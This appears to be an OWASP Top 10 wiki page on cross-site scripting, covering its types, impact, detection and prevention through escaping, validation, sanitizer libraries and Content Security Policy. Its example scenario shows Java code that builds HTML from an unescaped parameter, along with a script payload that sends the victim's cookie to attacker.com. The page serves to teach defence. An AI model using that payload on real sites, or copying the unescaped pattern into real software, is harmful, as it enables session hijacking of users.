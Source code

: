 `    <td ``>`

Consider anyone who can send untrusted data to the system, including
external users, internal users, and administrators.

</td>

`    <td ``>`

Attacker sends text-based attack scripts that exploit the interpreter in
the browser. Almost any source of data can be an attack vector,
including internal sources such as data from the database.

</td>

`    <td colspan=2  ``>`

[XSS](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\)) is
the most prevalent web application security flaw. XSS flaws occur when
an application includes user supplied data in a page sent to the browser
without properly validating or escaping that content. There are three
known types of XSS flaws: 1)
[Stored](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\)),
2)
[Reflected](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\)),
and 3) [DOM based XSS](https://www.owasp.org/index.php/DOM_Based_XSS).

Detection of most XSS flaws is fairly easy via testing or code analysis.

</td>

`    <td ``>`

Attackers can execute scripts in a victim’s browser to hijack user
sessions, deface web sites, insert hostile content, redirect users,
hijack the user’s browser using malware, etc.

</td>

`    <td ``>Consider the business value of the affected system and all the data it processes.`

Also consider the business impact of public exposure of the
vulnerability.

</td>

You are vulnerable if you do not ensure that all user supplied input is
properly escaped, or you do not verify it to be safe via input
validation, before including that input in the output page. Without
proper output escaping or validation, such input will be treated as
active content in the browser. If Ajax is being used to dynamically
update the page, are you using [safe JavaScript
APIs](https://www.owasp.org/images/c/c5/Unraveling_some_Mysteries_around_DOM-based_XSS.pdf)?
For unsafe JavaScript APIs, encoding or validation must also be used.

Automated tools can find some XSS problems automatically. However, each
application builds output pages differently and uses different browser
side interpreters such as JavaScript, ActiveX, Flash, and Silverlight,
making automated detection difficult. Therefore, complete coverage
requires a combination of manual code review and penetration testing, in
addition to automated approaches.

Web 2.0 technologies, such as Ajax, make XSS much more difficult to
detect via automated tools.

Preventing XSS requires separation of untrusted data from active browser
content.

1.  The preferred option is to properly escape all untrusted data based
    on the HTML context (body, attribute, JavaScript, CSS, or URL) that
    the data will be placed into. See the [OWASP XSS Prevention Cheat
    Sheet](https://www.owasp.org/index.php/XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet)
    for details on the required data escaping techniques.
2.  Positive or “whitelist” input validation is also recommended as it
    helps protect against XSS, but is <u>not a complete defense</u> as
    many applications require special characters in their input. Such
    validation should, as much as possible, validate the length,
    characters, format, and business rules on that data before accepting
    the input.
3.  For rich content, consider auto-sanitization libraries like OWASP’s
    [AntiSamy](https://www.owasp.org/index.php/AntiSamy) or the [Java
    HTML Sanitizer
    Project](https://www.owasp.org/index.php/OWASP_Java_HTML_Sanitizer_Project).
4.  Consider [Content Security Policy
    (CSP)](https://www.owasp.org/index.php/Content_Security_Policy) to
    defend against XSS across your entire site.

The application uses untrusted data in the construction of the following
HTML snippet without validation or escaping:

<span style="color:red;"> (String) page +=
"<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";

</span>

The attacker modifies the 'CC' parameter in their browser to:

<span style="color:red;"> <span style="color:red;">'\>

<script>

document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi
?foo='+document.cookie

</script>

'.</span>

</span>

This causes the victim’s session ID to be sent to the attacker’s
website, allowing the attacker to hijack the user’s current session.

Note that attackers can also use XSS to defeat any automated CSRF
defense the application might employ. See A8 for info on CSRF.

  - \[\[XSS (Cross Site Scripting) Prevention Cheat Sheet | OWASP XSS
    Prevention Cheat Sheet

\]\]

  - [OWASP DOM based XSS Prevention Cheat
    Sheet](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")
  - [OWASP Cross-Site Scripting
    Article](Cross-site_Scripting_\(XSS\) "wikilink")
  - [ESAPI Encoder
    API](http://owasp-esapi-java.googlecode.com/svn/trunk_doc/latest/org/owasp/esapi/Encoder.html)
  - [ASVS: Output Encoding/Escaping Requirements (V6)](ASVS "wikilink")
  - [OWASP AntiSamy: Sanitization Library](AntiSamy "wikilink")
  - [Testing Guide: 1st 3 Chapters on Data Validation
    Testing](Testing_for_Data_Validation "wikilink")
  - [OWASP Code Review Guide: Chapter on XSS
    Review](Reviewing_Code_for_Cross-site_scripting "wikilink")
  - [OWASP XSS Filter Evasion Cheat
    Sheet](XSS_Filter_Evasion_Cheat_Sheet "wikilink")

<!-- end list -->

  - [CWE Entry 79 on Cross-Site
    Scripting](http://cwe.mitre.org/data/definitions/79.html)